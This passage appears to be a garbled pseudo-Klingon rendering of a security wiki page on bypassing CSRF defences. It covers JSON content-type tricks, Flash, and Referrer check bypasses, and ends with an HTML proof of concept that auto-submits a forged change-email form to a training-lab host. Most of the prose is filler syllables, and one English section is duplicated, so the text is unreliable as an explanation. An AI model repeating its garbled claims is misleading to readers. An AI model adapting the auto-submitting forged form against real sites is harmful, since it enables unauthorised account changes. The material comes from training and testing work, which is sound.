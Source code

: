 **JSON Data**-nISmoHmeH POST request-vam vItlhutlh `Content-Type: application/json`-nISmoHmeH HTML form-vam vItlhutlh. **XMLHttpRequest**-vam vItlhutlh content type-vam vItlhutlh preflight request-vam vItlhutlh. 'ach, **Content-Type**-vam vItlhutlh limitation-vam vItlhutlh bypass-vam vItlhutlh je **server**-vam JSON data-vam process-vam vItlhutlh Content-Type-vam vItlhutlh:

1. **Alternative Content Types**-nISmoHmeH: **Content-Type: text/plain** yIlo' **Content-Type: application/x-www-form-urlencoded**-vam vItlhutlh `enctype="text/plain"` HTML form-vam vItlhutlh. **Backend**-vam Content-Type-vam vItlhutlh data-vam process-vam vItlhutlh.

2. **Content Type vItlhutlh**: Preflight request-vam vItlhutlh, **server**-vam content-vam JSON vItlhutlh, **Content-Type: text/plain; application/json**-vam vItlhutlh data-vam vItlhutlh. Preflight request-vam vItlhutlh, 'ach **server**-vam **application/json** vItlhutlh.

3. **SWF Flash File Utilization**: **SWF flash file**-vam vItlhutlh method-vam vItlhutlh. **Technique**-vam vItlhutlh, **post**-vam [this post](https://anonymousyogi.medium.com/json-csrf-csrf-that-none-talks-about-c2bf9a480937)-vam vItlhutlh.

### Referrer / Origin check bypass

**Referrer header**-vam validation-vam vItlhutlh 'Referer' header-vam vItlhutlh. **Browser**-vam header-vam vItlhutlh, HTML meta tag-vam vItlhutlh:
```xml
<meta name="referrer" content="never">
```
**Regexp bypasses**

{% content-ref url="ssrf-server-side-request-forgery/url-format-bypass.md" %}
[url-format-bypass.md](ssrf-server-side-request-forgery/url-format-bypass.md)
{% endcontent-ref %}

To set the domain name of the server in the URL that the Referrer is going to send inside the parameters you can do:

**Klingon Translation:**

**Regexp bypasses**

{% content-ref url="ssrf-server-side-request-forgery/url-format-bypass.md" %}
[url-format-bypass.md](ssrf-server-side-request-forgery/url-format-bypass.md)
{% endcontent-ref %}

To set the domain name of the server in the URL that the Referrer is going to send inside the parameters you can do:
```html
<html>
<!-- Referrer policy needed to send the qury parameter in the referrer -->
<head><meta name="referrer" content="unsafe-url"></head>
<body>
<script>history.pushState('', '', '/')</script>
<form action="https://ac651f671e92bddac04a2b2e008f0069.web-security-academy.net/my-account/change-email" method="POST">
<input type="hidden" name="email" value="asd&#64;asd&#46;asd" />
<input type="submit" value="Submit request" />
</form>
<script>
// You need to set this or the domain won't appear in the query of the referer header
history.pushState("", "", "?ac651f671e92bddac04a2b2e008f0069.web-security-academy.net")
document.forms[0].submit();
</script>
</body>
</html>
```
### **HEAD method bypass**
